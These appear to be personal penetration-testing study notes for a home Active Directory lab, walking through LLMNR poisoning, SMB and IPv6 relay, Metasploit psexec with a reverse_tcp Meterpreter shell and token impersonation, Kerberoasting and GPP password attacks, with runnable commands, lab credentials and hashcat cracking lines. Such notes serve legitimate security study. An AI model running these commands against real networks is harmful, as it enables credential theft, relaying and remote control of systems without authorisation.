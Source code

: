 **1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 Token Impersonation** \
**5 MS17-010** \
**6 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- Responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::  ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \  ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap: \

`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  &&  ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds::  ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

**4. Token Impersonation:**
```
msfconsole use exploit windows/smb/psexec 
msfconsole set smbdomain carbon.local set smbpass Password!1 set smbuser e.triage set rhost 192.168.86.206 set target 2(Native Upload)
set payload /windows/x64/meterpreter/reverse_tcp set lhost eth0 run
```
```
`meterpreter> hashdump, getuid, sysinfo`
`meterpreter> load <tab> incognito`
`meterpreter> help - `
`meterpreter> list_tokens`
`meterpreter> impersonate_token CARBON\\e.triage`
`meterpreter> shell`
`C:\Windows\system32> whoami :: carbon\e.triage`
```

***if hashdump run now - will throw errors :: to fix "rev2self" see ![revert_2_self](Screenshots/rev2selfpng.png)***
***Token is there until computer is reboot***

**Mitigation strategy::** 
+ Limit User/Group token creation permissions
+ Account tiers - Domain admin's should only be logging into DC's
+ Local admin restriction

---

**5. Kerberoasting:** Goal:: Get TGS and decrypt server's account hash (tgs may be hint). See ![kerberoasting](Screenshots/kerberoasting.png)
  1. User -> DC  :: Request TGT. Provide NTLM hash
  2. DC -> User  :: Receive TGT enc w/ krbtgt hash
  3. User -> DC  :: Request TGS for Server (Presents TGT)
  4. DC -> User  :: Receive TGS ecn w/ server's account hash (TGS received)
  5. User -> App :: Present TGS for service enc w/ server's account
  6. App -> User :: Used when mutual Authentication is required
  7. App -> DC   :: PAC Validation Request Optional
  8. App -> DC   :: PAC Validation Response Optional

  
```
/opt/impacket/examples# GetUsersSPNs.py Carbon.loca/e.triage:'Password!1' -dc-ip <ip-DC> -request -outputfile hashes.kerbroast
```

```
PS C:\Users\e.triage> klist get host/ETHYL <computer name>
#0>     Client: e.triage @ CARBON.LOCAL
        Server: krbtgt/CARBON.LOCAL @ CARBON.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 12/24/2021 13:17:39 (local)
        End Time:   12/24/2021 23:17:39 (local)
        Renew Time: 12/31/2021 13:16:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: Oxytocin-DC.Carbon.local
```

```

hashcat -m 13100 hashes.kerbroast /usr/share/wordlists/rockyou.txt -O #13100 is Kerberos TGS module
```

**6 GPP Attacks:**
  1. Group Policy Preferences allows admins to create policies w/ embedded creds
  2. creds encrypted and placed in a "cPassword"
  3. key accidentally released
  4. Patched in MS14-025 - doesnt prevent previous uses (Server 2012). 
  5. msf auxiliary (smb_enum_gpp) #to check for GPP vuln



---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6) \
[GPP_extras] (https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage)